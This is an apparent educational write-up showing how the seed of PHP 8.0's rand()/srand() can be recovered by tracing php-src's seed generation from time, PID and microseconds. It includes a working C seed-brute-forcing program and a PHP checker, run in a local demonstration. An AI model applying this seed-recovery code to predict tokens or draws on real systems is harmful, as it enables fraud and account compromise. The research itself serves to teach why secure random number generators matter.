




## Exploiting Weak Pseudo-Random Number Generation in PHP 8.0's `rand()` and `srand()` Functions
By Jacob Moore

#### Disclaimer:
This is for informative and educational purposes only. I am not responsible for, and do not have control over, the actions of anybody who reads or uses any of the documents/files contained in this repository.

In the famous words of one of my high school teachers, "DON'T BE STUPID!"


#### Synopsis
This is a summary and explanation of how PHP 8.0's `rand()` and `srand()` functions operate and how their insecure generation of random numbers may be exploited. Throughout this article, we will conceptualize how random numbers are generated, explain how weak random number generators can be exploited, reverse engineer PHP's underlying C code, and finally, re-implement the reverse engineered code to create an exploit. This was done as a side project after seeing a PHP plugin using `rand()` in an insecure fashion and is the final result of my research, brainstorming, and exploit development.


### 0. Basics of pseudo-random number generation
"How are random numbers generated?" It's a simple question that can get complicated very quickly, but the basics are fairly straight forward. Random numbers are usually generated through algorithms that produce a sequence of numbers in a fashion that appears random, but are actually based on numbers produced earlier in the sequence. These algorithms are referred to as **Pseudo-Random Number Generators**, or PRNGs for short.

An example of a simple PRNG is the Linear Congruential Generator (LCG), which can be defined as,
```
X_n+1 = (a * X_n + c) % m
```
where `a`,`c`, and `m` are constants, `X_n+1` is the next number in the sequence, and `X_n` is the current number in the sequence. Once we preform the operations to the right of the equal sign, the value we get is `X_n+1`, which then becomes the new `X_n` next time we preform the operation, repeating the cycle to get the next number in the sequence.

However, the sequence has to start somewhere, right? So what number do we pick for `X_0`, the first number to be plugged into the algorithm? This first number is called the **seed**. Because most PRNG are based on these styles of sequences, a given seed will *always* produce the exact same sequence of "random" numbers. This deterministic nature is why they are referred to as "pseudo-random" number generators. To avoid producing the same pattern of numbers every run, most seeds are generated using other unpredictable elements, like the current time or the movement of a user's mouse.

For example, the following Python code uses the LCG method of random number generation to print 3 random numbers between 0 and 25 and will have the seed set to `10`...
```python
# Constants
a = 3
c = 7
m = 25

# The Seed
X_0 = 10

# Generating 3 Pseudo-Random Numbers using the LCG method
X_1 = (a * X_0 + c) % m
X_2 = (a * X_1 + c) % m
X_3 = (a * X_2 + c) % m

print(X_1, X_2, X_3)
```
This code will *always* produce the numbers `12`, `18`, and `11`. But if we increase the seed (`X_0`) from `10` to `11`, we will instead get the output of `15`, `2`, and `13`. To make it feel more random, we can set the seed to the current time. This will cause the script to produce a different set of numbers every time it is run.
```python
# Bring in the "time()" function
from time import time

# Constants
a = 3
c = 7
m = 25

# Set the Seed to the current epoch time in whole seconds
X_0 = int( time() )

# Generating 3 Pseudo-Random Numbers using the LCG method
X_1 = (a * X_0 + c) % m
X_2 = (a * X_1 + c) % m
X_3 = (a * X_2 + c) % m

print(X_1, X_2, X_3)
```


### 1. Exploits by deriving the seed

A simple attack scenario might look like this:

"Alice is hosting a lottery. Alice will have a computer generate 3 random numbers and if a person can guess all 3 numbers correctly, they win a prize. Alice then asks Bob to guess 3 random numbers. If Bob knows that Alice used the LCG with a seed of `14` (and knows the other parameters of the LCG), Bob can also use the LCG with a seed of `14` to get the exact same numbers as Alice and provide the winning numbers to win the prize."

While this might seem like a bit of a silly example, it isn't all too different from how some actual lotteries work, such as the *Powerball* in the United States or the *EuroMillions* in the EU.

**The premise of using seeds to exploit weak PRNGs is based around the fact that the seed is treated as a secret and is not known by 3rd parties.**

Therefore, to exploit `rand()` and `srand()` we will be deriving the seed used to generate a series of random numbers.


### 2. Uses and behavior of PHP's `rand()` and `srand()`
Use of PHP's `rand()` function is simple; call the function without arguments and it will spit out a random number. The `srand()` function is equally simple, as it is used to set the seed for random number generation. That said, there are some important interactions and characteristics that these function possess that should be noted:
1. Calling `srand()` without arguments will randomly set the seed
2. Calling `rand()` for the first time without any prior call to `srand()` will automatically call `srand()` in order to set the seed before continuing
3. `rand()` is actually an alias for a function called `mt_rand()`
4. `srand()` is actually an alias for a function called `mt_srand()`
5. `mt` is short for "Mersenne Twister" which is a type of PRNG

This information help us to know what to look for when going through the source code and documentation.


### 3. The scenario

For this demonstration, I will be using `rand()` to produce 10 random numbers, for which I will have to find and generate the seed for in order to produce the *exact* same sequence again and print a message to the screen. The PHP code that will produce the numbers is as follows (with a few additional lines to be added later):
```php
<?php
    echo 'RAND1:'.rand().'|';
    echo 'RAND2:'.rand().'|';
    echo 'RAND3:'.rand().'|';
    echo 'RAND4:'.rand().'|';
    echo 'RAND5:'.rand().'|';
    echo 'RAND6:'.rand().'|';
    echo 'RAND7:'.rand().'|';
    echo 'RAND8:'.rand().'|';
    echo 'RAND9:'.rand().'|';
    echo 'RAND10:'.rand().'|';
?>
```

Because the first `rand()` is calling `srand()` behind the scenes, I will not know what the seed is unless I can generate it myself and get the same random numbers. The code that will check and validate my generated numbers against the target numbers will be similar to the following (also with a few extra lines to be added later):

```php
<?php
    $seed = <my_generated_seed>;
    srand((int)$seed);
    $rand = rand();
    if ($rand == 104976659){
        $rand = rand();
        if ($rand == 1739634291){
            $rand = rand();
            if ($rand == 1500525663){
                $rand = rand();
                if ($rand == 1256266489){
                    $rand = rand();
                    if ($rand == 2105373119){
                        $rand = rand();
                        if ($rand == 1483350734){
                            $rand = rand();
                            if ($rand == 212261578){
                                $rand = rand();
                                if ($rand == 523521068){
                                    $rand = rand();
                                    if ($rand == 2050272690){
                                        $rand = rand();
                                        if ($rand == 2119931952){
                                            echo "\n----------------------------------\n";
                                            echo "GOT IT!!!\n";
                                            echo "SEED: $seed\n";
                                            echo "----------------------------------\n\n";
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
?>
```
To paraphrase Scotty from *Star Trek* (2009), the odds of blindly guessing the same random numbers needed to get the print-out would be, "...like trying to hit a bullet with a smaller bullet whilst wearing a blindfold, riding a horse."


**NOTE:** I have some Bash/Python automation (`setup_test.py` and `run_exploit.sh`) to make it easier to setup and run multiple tests quickly, instantiate templates, parse output, and do some pretty printing to the screen, but all of my files have been included in this repo.


### 4. Tracing PHP's underlying C code to find seed generation

Further analysis requires us to read the source code that PHP is built with, which is fortunately posted on github, specifically the 8.0 version or earlier ([php-src](https://github.com/php/php-src)).

Starting with `ext/standard/rand.c`...


We can confirm on line 32 and 39 that the C functions `php_rand()` and `php_srand()` have been aliased to `php_mt_rand()` and `php_mt_srand()` and that the implementation of the PHP function `rand()` uses the `mt` variants of the C functions. In our scenario, `rand()` is being called without arguments, meaning `ZEND_NUM_ARGS()` will return `0` and we will end up stepping into the `php_mt_rand()` function on line 51. This function can be found in `ext/standard/mt_rand.c` on line 157.



A quick glance and some interpretation shows that if the functions haven't been seeded yet (line 164), then PHP will generate a seed of random bytes (line 167) and run `php_mt_srand()` with the bytes to set the seed (line 169). The important function here is `GENERATE_SEED()`, which will show us exactly how PHP picks a starting seed for its generators. This function is actually defined in the `ext/standard/php_rand.h` header file, where we find...


This is essentially an if/else to determine which operating system is being used. I'm on Linux, so the `GENERATE_SEED()` definition is on line 66. With this function we have the first piece to the puzzle. To generate a seed, PHP requires 3 specific values returned by 3 different functions; `time(0)`, `getpid()`, and `php_combined_lcg()`.

```c
GENERATE_SEED() (((zend_long) (time(0) * getpid())) ^ ((zend_long) (1000000.0 * php_combined_lcg())))
//                               |          |                                           |
//                               |          |                                           |--- ???
//                               |          |--- Returns the PID of the PHP interpreter running the script
//                               |--- Returns the current epoch time
```

Knowing from experience, `time(0)` will return the current epoch time of the system and `getpid()` returns the process id of the running process, but `php_combined_lcg` is a mystery. Luckily, the hint is in the name. `lcg` is short for "Linear Congruential Generator," which is another type of PRNG. That's right! PHP's PRNG uses *another* PRNG to initialize a seed! This implementation leads us to `ext/standard/lcg.c`. Here we find `php_combined_lcg()` on line 51.



2 things are important here. The least important one is the `LCG()` function, which is just used to dereference elements of a `php_lcg_globals` struct that manages the LCG's seeded state and 2 other values. The struct and function are defined in `ext/standard/php_lcg.h`.



The more important one is that when the primary `php_lcg_globals` struct has not been seeded (line 56), the `lcg_seed()` function is called, which is defined on line 72.



This function will give us the final pieces that we need. Here's the breakdown of how the LCG is seeded.

```c
static void lcg_seed(void)
{
    struct timeval tv;
//            |
//            |--- struct type returned by `gettimeofday()`.
//                 Has 2 elements: tv_sec is seconds (epoch time)
//                                 tv_usec is microseconds
//          
//          |---------- Gets the current epoch time with microsecond
//          |           precision and stores it in the `timeval` struct
//          |           that was passed by refrence (aka tv)
//          |           Returns 0 on success and -1 on error
//          |
    if (gettimeofday(&tv, NULL) == 0) {
        LCG(s1) = tv.tv_sec ^ (tv.tv_usec<<11);
//     |                                      |
//     |--------------------------------------|
//     |
//     |--- Left shift the microseconds by 11 bits, XOR it with
//          the current epoch time, then store it as `s1` in
//          the primary `php_lcg_globals` struct


    } else {
        LCG(s1) = 1;//--- Only done on `gettimeofday` errors, not important
    }
#ifdef ZTS
    LCG(s2) = (zend_long) tsrm_thread_id();//--- Not important in our scenario
                                           //    Not executed
#else
    LCG(s2) = (zend_long) getpid();
// |------------------------------|
// |
// |--- Get the PID of the PHP interpreter and store it as
//      `s2` in the primary `php_lcg_globals` struct
#endif

//           |--- Get a new time and store it in `tv`
//           |    Note that `tv.tv_sec` is not used here
//           |
    if (gettimeofday(&tv, NULL) == 0) {
        LCG(s2) ^= (tv.tv_usec<<11);
//     |---------------------------|
//     |
//     |--- Left shift the new microseconds by 11 bits, XOR it with
//          the PID (aka `s2`) and store it as `s2` in the primary
//          `php_lcg_globals` struct
    }

    LCG(seeded) = 1;//--- Mark that the generator has been seeded
}
```

The LCG requires 4 different values to generate a seed; the current epoch time, the process id, and 2 different microsecond times. However, the first microsecond time can be brute forced, while the second microsecond can be treated as an offset. On top of that, after testing, it was found that no matter what the microsecond offset is, there are only 1 million possible seeds for any PID/Epoch pair, and it  will start to generate duplicate seeds. This leaves us with the ability to treat it as a cracking problem. We will go ahead and obtain the epoch time and pid at runtime, brute force the microseconds and offset, use that information to generate a list of potential seeds, and then see which seed generates the sequence of numbers we are looking for.


### 5. Planning and exploit development

In total, to generate seeds for the Linear Congruential and Mersenne Twister generators, we will obtain/manipulate 4 pieces of information.
- **Epoch Time** - Obtained at runtime
- **PID** - Obtained at runtime
- **Microseconds** - Brute forced
- **Microseconds+Offset** - Brute forced up to a predetermined amount

Then we write an exploit reusing pieces of the PHP source code such that our values are injected into 6 different positions to create a PHP seed generator.

```c
//---------------------------------- Mersenne Twister Generator ----------------------------------------
//
//                            Epoch Time
//                                |        PID
//                                |         |    
GENERATE_SEED() (((zend_long) (time(0) * getpid())) ^ ((zend_long) (1000000.0 * php_combined_lcg())))
//                                                                                      |
//                                                                                      |
//                                               |--------------------------------------|
//                                               |
//                                               |
//--------------------------- Linear Congruential Generator (Stripped) ---------------------------------
//
static void lcg_seed(void)
{
//            Epoch Time
//                |        Microseconds
//                |             |
    LCG(s1) = tv.tv_sec ^ (tv.tv_usec<<11);

//                          PID
//                           |
    LCG(s2) = (zend_long) getpid();

//           Microseconds+Offset
//                   |
    LCG(s2) ^= (tv.tv_usec<<11);


    LCG(seeded) = 1;
}
```
This leaves us with the following `exploit.c` file.
```c
#include <stdio.h>
#include <sys/time.h>
#include <unistd.h>
#include <stdint.h>
#include "zend_long.h"
//==============================================================================
typedef struct {
    int32_t s1;
    int32_t s2;
    int seeded;
} php_lcg_globals;
//==============================================================================
#define MODMULT(a, b, c, m, s) q = s/a;s=b*(s-a*q)-c*q;if(s<0)s+=m
//==============================================================================
#define GENERATE_BAD_SEED(a, b, c, d, e) (((zend_long) (c * b)) ^ ((zend_long) (1000000.0 * bad_php_combined_lcg(a,b,c,d,e))))
//==============================================================================
static void bad_lcg_seed(php_lcg_globals* lcg, int pid, long epoch, long uepoch, int uepochOffset)
{
    lcg->s1 = epoch ^ (uepoch<<11);
    lcg->s2 = (zend_long) pid;
    lcg->s2 ^= ((uepoch + uepochOffset)<<11);
    lcg->seeded = 1;
}
//==============================================================================
double bad_php_combined_lcg(php_lcg_globals* lcg, int pid, long epoch, long uepoch, int uepochOffset)
{
    int32_t q;
    int32_t z;

    if (!lcg->seeded) {
        bad_lcg_seed(lcg, pid, epoch, uepoch, uepochOffset);
    }

    MODMULT(53668, 40014, 12211, 2147483563L, lcg->s1);
    MODMULT(52774, 40692, 3791, 2147483399L, lcg->s2);

    z = lcg->s1 - lcg->s2;
    if (z < 1) {
        z += 2147483562;
    }

    return z * 4.656613e-10;
}
//==============================================================================
int main(void){
    php_lcg_globals test;

    int pid = 343454;//--- PID
    long epoch = 1680751918;//--- EPOCH TIME
    long uepoch = 0;//--- MICROSECONDS
    int uepochOffset = 0;//--- OFFSET
    const int MAX_UEPOCH_OFFSET = 14;

    test.s1 = 0;
    test.s2 = 0;
    test.seeded = 0;

    for(uepoch = 1; uepoch < 1000000; uepoch++){
        for(uepochOffset = 0; uepochOffset <= MAX_UEPOCH_OFFSET; uepochOffset++){
            test.seeded = 0;
            printf("%ld\n", GENERATE_BAD_SEED(&test, pid, epoch, uepoch, uepochOffset));
        }
    }
    return 0;
}
//==============================================================================

```

### 6. Exploitation

From here, it's easy (again, thanks to some templating and automation). Running the `run_exploit.sh` will do the following:
1. Generate 10 random numbers using PHP and grab the PID and current epoch time
2. Run `setup_test.py`, which will...
    1. Copy the PID and epoch time into our `exploit.c` file
    2. Copy the target numbers into our PHP testing file.
3. Compile our exploit file
4. Run the exploit to generate a list of possible seeds
5. Remove duplicate seeds from our list of possible seeds
6. Generate sets of random numbers given our provided seeds until we generate the same sequence of random numbers as the target numbers

*ET VOILA!*


We successfully took elements from our machine environment, regenerated an unknown seed for a pseudo-random number generator, and created the exact same sequence of "random" numbers 2 times in a row.

### 7. Conclusion and after-thoughts

While it is a neat trick and was fun to work on, this method of exploitation is heavily dependent on the context. The 3 major hindrances to exploitation in the wild are PHP's use of PID, the microsecond offset, and local vs remote brute forcing. With the default size of an OS's PID pool, coupled with the microsecond offset, there are too many potential values produced to efficiently execute over an internet connection. It is common to have a PID pool size of 2^15 or 32,768 different ids. The offset microsecond offset means that for every PID/Epoch pair, there are 1 million different potential seeds. this means that, assuming no overlap, there are 32,768,000,000 different seeds. And that is assuming that the epoch time is correct on the victim machine and that you accurately clocked the time on your request. It is also possible for x64-bit machines to have PID pools set as large as 2^22 or over 4 million different ids (eg. like my desktop, which is currently assigning PIDs in the 300,000s as the time of writing).

If somehow the PHP interpreter's PID is being leaked, exposed, or other-wise known, then it has some potential to be used. But one has to keep in mind that a single pair generates 1 million seeds which are sent over 1 million requests. This is noisy and can take hours depending on the internet quality. I have some ideas as to how one might overcome some of these issues, but those would require more time and testing and are better saved for another time.

It may be a niche exploit that requires the right circumstances, but it does help bring attention as to why cryptographically secure pseudo-random number generators are important in security. This concept of exploiting seeds can also be extended to various other languages and implementations, making it a bit more than just a one-off party trick.


#### References:
- https://www.php.net/manual/en/function.rand.php
- https://www.php.net/manual/en/function.srand.php
- https://www.php.net/manual/en/function.mt-rand.php
- https://www.php.net/manual/en/function.mt-srand.php
- https://github.com/php/php-src
- https://github.com/php/php-src/commit/b51a5c353ad7e1d702cba96b94517762821235b6


<!-- https://www.php.net/manual/en/function.rand.php -->
